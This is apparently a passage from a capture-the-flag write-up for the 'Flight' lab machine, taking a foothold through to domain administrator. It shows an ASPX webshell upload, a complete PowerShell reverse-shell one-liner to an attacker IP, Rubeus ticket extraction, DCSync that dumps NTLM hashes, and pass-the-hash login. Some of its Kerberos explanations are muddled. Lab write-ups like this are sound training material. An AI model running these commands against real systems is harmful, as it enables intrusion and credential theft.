
Banner grabbing
http://127.0.0.1:8001 [200 OK] Bootstrap, Country[RESERVED][ZZ], Frame, Google-API[ajax/libs/jquery/1.10.2/jquery.min.js], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[127.0.0.1], JQuery[1.10.2,1.11.2], Microsoft-IIS[10.0], Modernizr[2.8.3-respond-1.4.2.min], Script[text/javascript], Title[Flight - Travel and Tour], X-Powered-By[ASP.NET], X-UA-Compatible[IE=edge], YouTube
As indicated earlier on from our investigation, its an IIS server (Microsoft-IIS[10.0]) , but how can we move forward????
Understanding the IIS server
With little research i found that the Default IIS Web Site root folder is:
so lets hop in the shell we had earlier as C.Bum and navigate towards the above dir
Directory of C:\inetpub
08/23/2025 04:00 PM <DIR> .
08/23/2025 04:00 PM <DIR> ..
09/22/2022 12:24 PM <DIR> custerr
08/23/2025 04:01 PM <DIR> development
09/22/2022 01:08 PM <DIR> history
09/22/2022 12:32 PM <DIR> logs
09/22/2022 12:24 PM <DIR> temp
09/22/2022 12:28 PM <DIR> wwwroot
0 File(s) 0 bytes
8 Dir(s) 4,088,504,320 bytes free
Webpage content directory
Lets find where the content is located:
wwwroot Directory
Directory of C:\inetpub\wwwroot
09/22/2022 12:28 PM <DIR> .
09/22/2022 12:28 PM <DIR> ..
09/22/2022 12:28 PM <DIR> aspnet_client
09/22/2022 12:24 PM 703 iisstart.htm
09/22/2022 12:24 PM 99,710 iisstart.png
2 File(s) 100,413 bytes
3 Dir(s) 4,088,504,320 bytes free
this dir does not contain the contents
development Directory
Directory of C:\inetpub\development
08/23/2025 04:12 PM <DIR> .
08/23/2025 04:12 PM <DIR> ..
04/16/2018 02:23 PM 9,371 contact.html
08/23/2025 04:11 PM <DIR> css
08/23/2025 04:12 PM <DIR> fonts
08/23/2025 04:12 PM <DIR> img
04/16/2018 02:23 PM 45,949 index.html
08/23/2025 04:12 PM <DIR> js
2 File(s) 55,320 bytes
6 Dir(s) 4,020,420,608 bytes free
This does contain the webpage content, so whatever we upload on this directory will be accessible from the browser.
But what user has permissions to upload there??
Lets get back to the shell we had as svc_apache, since its an IIS server we wanna see which user has write permissions on the development directory, and it seems that user C.Bum has write permissions! (indicated by the W in parenthesis on the 2nd line below)

Next, what if we follow the same approach like we did for getting shell as svc_apache?
Since we have write permissions on the development directory, lets try uploading the php shell we used for svc_apache:
Uploading webshell on the IIS server
retrieve the file inside the target:
hm tried to upload it but its not found when navigating to it:

Why didnt this work? Well i later discovered that PHP is not native to IIS and By default, IIS is set up to run ASP.NET applications.
Well since php wont work, lets try other languange, and specifically the one thats native to IIS, so aspx shell, i used this:
https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx
retrieve the file inside the target:
this works! By default these values are filled, lets input the command we want:

I will use this command:
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.180',9005);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
but first, we need to find the path, lets get on C.Bum shell and check where is the powershell located:
C:\inetpub\development>where powershell
where powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
okay inside the fields of the webshell we paste the following:
- Program
- Arguments: (the rest of the command)
-nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.180',9005);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
→ got shell

Great! we got shell, but as what user?? the user is iis apppool , what is this user? well obviously its related to the IIS server but lets find more.
Shell as IIS APPPOOL
What is user iis apppool\defaultapppool ?
According to Microsoft, IIS AppPool\<AppPoolName> is a service account created by IIS to run an application pool.
- Internally, it can authenticate to other services using the machine account (
DOMAIN\MACHINENAME$) when the app pool accesses network resources — basically, it acts as the computer account on the network. - This is why we can grab a Kerberos ticket (TGS) for the machine account if we have code execution (in our case we do have) as the app pool identity, because the app pool is able to request tickets using its machine account delegation/impersonation rights.
Furthermore, for future reference i created these bullet points:
Attack Vectors via AppPool Identity
- Local File System
- Check
wwwrootand temp folders for writable paths. - Upload web shells or malicious DLLs if writable.
- Look for sensitive configuration files (web.config with credentials).
- Check
- Local Privilege Escalation
- Misconfigured permissions (folders, registry, services) could allow escalation to SYSTEM.
- Exploit
SeImpersonatePrivilegeif available for token impersonation (e.g., Rubeus, JuicyPotato, RottenPotato).
- Network / Machine Account
- AppPool can authenticate as the machine account (
DOMAIN\MACHINENAME$) on the network. - With code execution, you can:
- Request Kerberos TGS for the machine account (
Rubeus→ ticket harvesting / overpass-the-hash attacks). - Access network shares or services that trust the machine account.
- Pivot laterally to other machines.
- Request Kerberos TGS for the machine account (
- AppPool can authenticate as the machine account (
- Other Web Apps / Services
- If multiple apps share the same pool, compromise may affect all of them.
- Look for sensitive app logic or credentials exposed internally.
- Persistence
- Upload scheduled tasks, backdoor DLLs, or modify IIS configuration if permissions allow.
Check user’s privileges
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token Disabled
SeIncreaseQuotaPrivilege Adjust memory quotas for a process Disabled
SeMachineAccountPrivilege Add workstations to domain Disabled
SeAuditPrivilege Generate security audits Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
The most interesting one to me here after researching it is the SeImpersonatePrivilege . By the name of it, it indicates impersonating other users/accounts.
What is the privilege SeImpersonate ?
- In Windows, SeImpersonatePrivilege is a user right that allows a process to impersonate the security context of another user on the same system.
- A process with this privilege can take another user’s token (session) and execute actions as if it were that user.
- This is commonly used for services that need to act on behalf of a logged-in user, but in pentesting it can be abused for privilege escalation or ticket requests.
So in our case:
- DefaultAppPool is a service account running on the host.
- On Windows, many services running as SYSTEM or AppPool accounts have SeImpersonatePrivilege by default.
- This means a process running as DefaultAppPool can impersonate other accounts on the machine, including the machine account itself (
MACHINE$).
What impersonating the MACHINE$ account locally means
- DefaultAppPool runs Rubeus.
- Rubeus uses SeImpersonatePrivilege to grab the token of the MACHINE$ account on the local host. (the token contains also creds for the user)
- While impersonating MACHINE$, Rubeus can request Kerberos tickets from the DC as if it were MACHINE$.
- The KDC trusts the request and issues a legitimate Silver Ticket for a service on the host.
Why this works without the machine account password
- Normally, to forge a Silver Ticket, you need the NTLM hash of MACHINE$.
- Here, because DefaultAppPool can impersonate MACHINE$, the ticket is issued legitimately by the DC, so no password or hash is required.
- This is a local privilege escalation combined with Kerberos ticket request, a common attack path in Active Directory pentesting.
Why not impersonate Administrator directly?
Even though DefaultAppPool has some privileges, it cannot directly impersonate the Administrator account unless certain conditions are met. Let me break it down carefully:
1️⃣ SeImpersonatePrivilege vs. actual tokens
- SeImpersonatePrivilege allows a process to impersonate tokens that already exist on the machine.
- The key is: the token must be active/logged-on or present in memory.
- DefaultAppPool usually runs under a service account and can see some local system or machine account tokens, but it cannot arbitrarily create or access Administrator tokens unless an Administrator is currently logged in or has a process running that the AppPool can grab.
2️⃣ Why MACHINE$ works
- MACHINE$ always has a token available locally, because the machine account is the identity of the host in the domain.
- Windows automatically creates and maintains the MACHINE$ token for local operations and Kerberos authentication.
- DefaultAppPool can impersonate MACHINE$ because that token exists and the AppPool has SeImpersonatePrivilege.
3️⃣ Why Administrator is harder
- Administrator tokens exist only when someone is logged in or when a process runs as Administrator.
- On most servers, Administrator is not actively logged in, and DefaultAppPool cannot spawn one.
- Without an Administrator token to grab, SeImpersonatePrivilege cannot be used to impersonate it directly.
4️⃣ Practical implications
- By impersonating MACHINE$, you can legitimately request a Silver Ticket from the KDC.
- That ticket inherits high privileges on the host, including access to LSASS, which allows you to dump Administrator hashes anyway.
- This is why you don’t need to impersonate Administrator directly — MACHINE$ is enough to escalate or extract secrets.
💡 Summary:
DefaultAppPool cannot directly impersonate Administrator because the Administrator token isn’t readily available. MACHINE$ works because its token always exists locally, and impersonating it allows you to act with very high privileges anyway.
Grabbing machine account’s ticket with Rubeus
Start locally a python server, then retrieve the file on the target host:
run rubeus
______ _
(_____ \ | |
_____) )_ _| |__ _____ _ _ ___
| __ /| | | | _ \| ___ | | | |/___)
| | \ \| |_| | |_) ) ____| |_| |___ |
|_| |_|____/|____/|_____)____/(___/
v2.2.0
[*] Action: Request Fake Delegation TGT (current user)
[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/g0.flight.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: eAztthc+aOmkBoZUMiSKVWE2CqzSYvcKM/APadCdlZg=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):
doIFVDCCBVCgAwIBBaEDAgEWooIEZDCCBGBhggRcMIIEWKADAgEFoQwbCkZMSUdIVC5IVEKiHzAdoAMCAQKhFjAUGwZrcmJ0Z3QbCkZMSUdIVC5IVEKjggQgMIIEHKADAgESoQMCAQKiggQOBIIECq5ljBkW9O5BYWEDIS2OmwVeoGZbkfugbE8pBTvgbXsfYf/riYBd75znb0xTK1eweKz2CFVFe24AXZUjz6hYNsEHjSM6OxHdI04wIYfZvgcPVdL5xfgmZ11og6ULW9wLA9JiL1S4E5pWIl/CoEjc2TMFlO66KW+4JYqGv148W2KFWcvd+m/GJlwCPmohcX8m+KAWTwmI8Gw2rYZ3gAc7AXVWw6GC1h2ssGIlmg9z/5jP0XX4smSU9HIr7rhtcZDxOJ+y3+Yu8vl5HQHvZi6wV8K7RLi/s8rYXXkWJ4Pc5s1QAYIGKUAp6m4jQUQ1vQbRm7bASYY7R+W5WUqerJxmbtkF3xnTwW/s48gqeFKyRb6DDAnYX66TAXhN70xdPcTGAgaLrwK4FGXPR5xKRjIU20Lgp+Tl/oa8BCEccR+DzIKCAiSQSef13Y/wuTJQ1dC5BBiSXMShVE+2RVst6wp168IoIoWBx6OD8yKANzJOAFX9W1Ieuky3xK3fywFK4GTxSvSLPGFB8U8JHe6IhZmlWJeFWmryF0AiqVc7CkmjY63WG3R/uZz9JDE5KZ88cecfu2ODlOHHNM9WwD8UZc6YpYkxGKQOuEH89SqVbxACo3VfsgmasLqSsD6CaO/gxsK3umwbjlKTfCmfZ4ld78HtpNFKjhMI224lfqIJKK3Iv2pmCGfGOgEjxDN1hD6NAxUe7nhomiDmA0VBKdS8lsrM+kT7nbMUzvMaMNDuMdtjh+1K0f6vkJ+lApJsuHIZ/nW/e3MRTMbsfNx7PqVJilIsA39684m+RwltsZCZDWFn+6tsSXI9D5D3hcSh8EXqRRKJhD5Ia+1mC7v8ZIgFnJEIys5CNs59mapk7kXjY4nFJ2f0ofYZuk1YrV8x30Wb/6p+PnA0a1UV4UcRcAxUpXBptJCUkgMs07E5ybN7aAJ5FwR1lqvQpP7f2AhRgEHBnTrX7jMCtz2OMC1KYcPiGxudBL3JQZqo0FRAT7HGwlvwe+Q7M36sRIIOZX1HujXkUURlXZMO/yivEuD/5c3+f2X4zCQSy9My8sDWrZdK7TNt3QkXWDfOy+2/IXXpFRfcpccz7EH7dTMPIuZ1AzYRX07LjK4MJ/PTl4AnD37tN7iu6mF4Z4V0QBRNCK1cZ7e8I+/whgh+Ral83HHAB8h8W/sVGB4K9cW0Kl/3l2cRO7uJq/FUVSudRJr3jfp0srmDK9ujno0nRVueON/4R0/CQRQgTGP7U9Y6zVMgRT2FM24CtMuqiBBiL0YOQcQAOvD+/VOhbr3xChRQzQScp2Jte6/gWoqzfmsQlxvPe6yzMMlR6tGNIK4bOKPKc/e9PVLemQGZgIYBRX2+N/Nte+c4TZvp2uB+gqIyYohWoVvIo4HbMIHYoAMCAQCigdAEgc19gcowgceggcQwgcEwgb6gKzApoAMCARKhIgQgZ+NhRRlTt9s9gM7xQtaF9eHGA5iwrVQK+UeMbarvoimhDBsKRkxJR0hULkhUQqIQMA6gAwIBAaEHMAUbA0cwJKMHAwUAYKEAAKURGA8yMDI1MDgyNDAwMjUxN1qmERgPMjAyNTA4MjQxMDI1MTdapxEYDzIwMjUwODMxMDAyNTE3WqgMGwpGTElHSFQuSFRCqR8wHaADAgECoRYwFBsGa3JidGd0GwpGTElHSFQuSFRC
We obtained Silver Ticket for the machine account.
What Rubeus did here?
- Action:
Request Fake Delegation TGT (current user)- This means Rubeus is creating a delegation ticket for the current account.
- A “fake delegation TGT” is essentially a TGS-for-a-service with delegation rights, not a full TGT for the domain.
- Target SPN:
cifs/g0.flight.htb- It automatically tried to get a ticket for the CIFS service on the host
g0.flight.htb.
- It automatically tried to get a ticket for the CIFS service on the host
- Result:
AP-REQ delegation ticket is now in GSS-API output- An AP-REQ is a Kerberos request that uses a service ticket (TGS) to authenticate to a service.
- The ticket you now have is a service ticket for CIFS (i.e., a Silver Ticket in practice).
Found the AP-REQ delegation ticket in the GSS-API output.- This confirms you now have a delegation-capable TGS for the target service.
- It’s not a TGT; it’s limited to the service you requested.
This is essentially a Silver Ticket. It allows you to authenticate to the target host’s service (CIFS) using the machine account’s privileges
Silver Ticket recap
- A Silver Ticket is a Kerberos service ticket (TGS) for a specific service on a host, forged or obtained using the service account’s secret (here: machine account).
- Scope is limited to that service/host.
- You can use it to authenticate to the host/service without going to the Domain Controller again.
So our ticket:
- Is a service ticket for
cifs/g0.flight.htb, signed with the machine account’s key. - Works like a Silver Ticket, because it’s host/service-specific.
Here is a graphical representation of what Rubeus did:

mermaid:
sequenceDiagram
participant AppPool as DefaultAppPool (compromised)
participant Rubeus
participant Machine as MACHINE$ (Machine Account)
participant Target as Host Service (CIFS/g0.flight.htb)
Note over AppPool: Rubeus is run under DefaultAppPool account
%% AppPool uses MACHINE$ key to request a service ticket
AppPool->>Rubeus: Run Rubeus to request TGS for CIFS/g0.flight.htb
Rubeus->>Machine: Uses MACHINE$ key to build TGS request
Machine-->>Rubeus: Provides AP-REQ delegation ticket (Silver Ticket)
Rubeus->>AppPool: Returns Silver Ticket for use
%% Target receives the service ticket
AppPool->>Target: Presents Silver Ticket to authenticate as MACHINE$
Target-->>AppPool: Grants access according to MACHINE$ privileges
What does access to this account mean? what can we do with this type of account?
What are Machine accounts ($ accounts)
- Every computer joined to an Active Directory domain has a machine account, e.g.,
MACHINE$. - Machine accounts are essentially treated as highly privileged on their own host:
- They can authenticate as the computer itself.
- They usually have local admin rights on their own machine.
- They are trusted by the domain for certain actions, including DCSync-like operations if the host is allowed.
We will procced to converting it from Base64 to Kirbi format
it worked, next lets sync with the domain:
Then tell Kerberos to use the file ticket.ccache to store and read our authentication tickets instead of the default cache:
Also modify etc/hosts like this to include the domain (g0) too: (secretsdump failed without it xd, i should have added it on the recon phase)
DCSync
next, i used secretsdump to perform the DCSync
ktells it to use Kerberos authentication instead of NTLM.no-passmeans you don’t provide a password.- So effectively, it uses the Kerberos ticket to authenticate to the target.
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies
[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6a2b6ce4d7121e112aeacbc6bd499a7f:::
S.Moon:1602:aad3b435b51404eeaad3b435b51404ee:f36b6972be65bc4eaa6983b5e9f1728f:::
Why did this work?
- used the machine account’s ticket (TGT/TGS) — not a regular user.
- The machine account was able to authenticate to the target over SMB/RPC.
- Because the target host (DC) trusts machine accounts, it allowed access to LSASS, and secretsdump could retrieve NTLM hashes of other users, including
Administrator.
Key points:
- Machine account tickets can be more powerful than regular user tickets, because the account is essentially a trusted domain principal.
- Not every machine account can dump secrets everywhere — depends on domain policies and target host.
- The fact that you dumped the Administrator NTLM confirms that:
- The ticket was valid for the target service (TGS for CIFS/host).
- The machine account had sufficient privilege to read LSASS.
so we got administrators NTLM hash! lets login via winrm
Logging in as Administrator via pass the hash
grabbed root flag: be6ba64f9dd6f54a69284c332c492694
proof:

Summary
Here is the list of the steps simplified, per phase, for future reference and for quick reading:
Reconnaissance
- nmap
scan-> choseSMBRPCLDAPandHTTPto focus on first - Enumerated
SMB-> nothing valuable found - Enumerated
RPC-> nothing valuable found - Enumerated
LDAP-> nothing valuable found - Enumerated
HTTP, first directories, then subdomains, and then virtual hosts -> found vhosts - Inspected the webapp, and gathered information
- According to the information gathered, it was found to be vulnerable
RFI - Exploiting
RFIleaked the NTLM hash of a user (svc_apache) - Cracked the NTLM hash, got password for user (svc_apache)
- Correlated the found creds with SMB, LDAP, RPC services
- Enumerated
SMBas this user (svc_apache), found valid users - Enumerated
LDAPas this user (svc_apache) but nothing interesting was found
Foothold
Password sprayingviaSMBwas performed, found valid creds for another user (S.Moon)- Correlated the found creds with SMB, LDAP, RPC services
- Enumerated
SMBas this user (S.Moon), found WRITE permissions to a share - Found exploit and by uploading it to the share leaked the NTLM hash of another user (C.Bum)
- Cracked the NTLM hash, got password for user (C.Bum)
- Correlated the found creds with SMB, LDAP, RPC services
- Enumerated
SMBas this user (C.Bum), found WRITE permissions to a share, the exact same share that the vhost page's content was stored - Found exploit and by uploading it to the share, and triggering it by navigating it to the webpage, we got rev shell as a user (svc_apache)
- Impersonated user C.Bum as svc_apache, via running a new process as another user (RunAs, since we know the creds of C.Bum, and created a new cmd process run as C.Bum to send a rev shell back to our machine
- Got rev shell back to our machine, as user C.Bum
- got user flag
Privesc
- Enumerated files and directories , and found the existence of IIS server
- Uploaded winPEAS to find privesc paths, focused on the listening ports
- Correlated listening ports with the IIS server, found the corresponding port
- Port forwarded the port to attacker host, then inspected the webpage
- Enumerated the files of the IIS server, and found that user C.Bum has
WRITEpermissions there - Uploaded an aspx rev shell, and got shell as iis apppool\defaultapppool
- Privileges of this user revealed the existence of
SeImpersonatePrivilege, which in this case (iis apppool user) can impersonate the machine account - Grabbed machine account's ticket
- Used the ticket to authenticate and perform DCSync, which reavealed the
NTLMhash of Administrator - Logged in as Administrator via pass the hash and grabbed the root flag
Sidenotes
One of the best, most enjoyable and most important machines i have done so far. This was my first contact with virtual hosts, and also featured a multitude of different methods along with the exploitation of the both webapps. Privesc also almost had everything from port forwarding to user impersonation and DCSync.
What i also will remember from this one, is the enumeration for virtual hosts, and also that one user can impersonate another user via running a new process as the other user, if he knows the creds for the other user.
To sum up, this machine almost had everything, and i will definetely revisit it often throughout my OSCP journey.